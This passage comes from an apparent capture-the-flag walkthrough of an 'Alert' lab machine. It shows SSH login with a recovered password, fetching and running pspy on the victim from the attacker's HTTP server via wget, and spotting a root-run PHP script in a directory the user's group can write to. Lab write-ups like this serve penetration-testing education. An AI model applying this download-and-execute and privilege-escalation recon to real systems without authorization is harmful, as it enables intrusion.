 Let's try connecting via SSH as `albert` using the recovered password.

```
ssh albert@alert.htb
albert@alert.htb's password: manchesterunited
```

For privilege escalation, we download [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) to analyze running processes.

We serve the file using a simple HTTP server with `python`:

```
python3 -m http.server 8000
```

Then, from the victim machine, we download it using `wget`:

```
wget 10.10.14.191:8000/pspy64
```

And execute it:

```
./pspy64
```

Among all the information displayed, the most interesting finding is the execution of `/usr/bin/php -f /opt/website-monitor/monitor.php` as `root`.

```
2025/03/19 01:18:06 CMD: UID=0     PID=956    | /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
2025/03/19 01:19:01 CMD: UID=0     PID=14686  | /usr/bin/php -f /opt/website-monitor/monitor.php 
```

We check if we have write permissions on this file or any of its dependencies.

```
ls -l /opt/website-monitor/

drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates
```

Since the `management` group has write permissions in the config directory, we check if our current user is part of that group.

```
id

uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```
